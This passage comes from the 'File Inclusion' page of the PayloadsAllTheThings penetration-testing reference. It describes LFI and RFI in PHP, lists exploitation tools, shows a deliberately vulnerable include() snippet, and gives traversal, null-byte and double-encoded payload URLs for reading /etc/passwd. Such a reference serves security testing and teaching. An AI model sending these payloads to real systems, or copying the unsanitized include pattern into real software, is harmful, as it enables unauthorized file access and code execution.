

repository: swisskyrepo/PayloadsAllTheThings · page: File Inclusion/index.html · generator: mkdocs

# File Inclusion

> A File Inclusion Vulnerability refers to a type of security vulnerability in web applications, particularly prevalent in applications developed in PHP, where an attacker can include a file, usually exploiting a lack of proper input/output sanitization. This vulnerability can lead to a range of malicious activities, including code execution, data theft, and website defacement.

## Summary

- [Tools](#tools)
- [Local File Inclusion](#local-file-inclusion)
    - [Null Byte](#null-byte)
    - [Double Encoding](#double-encoding)
    - [UTF-8 Encoding](#utf-8-encoding)
    - [Path Truncation](#path-truncation)
    - [Filter Bypass](#filter-bypass)
- [Remote File Inclusion](#remote-file-inclusion)
    - [Null Byte](#null-byte-1)
    - [Double Encoding](#double-encoding-1)
    - [Bypass allow_url_include](#bypass-allow_url_include)
- [Labs](#labs)
- [References](#references)

## Tools

- [P0cL4bs/Kadimus](https://github.com/P0cL4bs/Kadimus) (archived on Oct 7, 2020) - kadimus is a tool to check and exploit lfi vulnerability.
- [D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite) - Totally Automatic LFI Exploiter (+ Reverse Shell) and Scanner
- [kurobeats/fimap](https://github.com/kurobeats/fimap) - fimap is a little python tool which can find, prepare, audit, exploit and even google automatically for local and remote file inclusion bugs in webapps.
- [lightos/Panoptic](https://github.com/lightos/Panoptic) - Panoptic is an open source penetration testing tool that automates the process of search and retrieval of content for common log and config files through path traversal vulnerabilities.
- [hansmach1ne/LFImap](https://github.com/hansmach1ne/LFImap) - Local File Inclusion discovery and exploitation tool

## Local File Inclusion

**File Inclusion Vulnerability** should be differentiated from **Path Traversal**. The Path Traversal vulnerability allows an attacker to access a file, usually exploiting a "reading" mechanism implemented in the target application, when the File Inclusion will lead to the execution of arbitrary code.

Consider a PHP script that includes a file based on user input. If proper sanitization is not in place, an attacker could manipulate the `page` parameter to include local or remote files, leading to unauthorized access or code execution.

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### Null Byte

:warning: In versions of PHP below 5.3.4 we can terminate with null byte (`%00`).

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

**Example**: Joomla! Component Web TV 1.0 - CVE-2010-1470

```ps1
{{BaseURL}}/index.php?option=com_webtv&controller=../../../../../../../../../../etc/passwd%00
```

### Double Encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
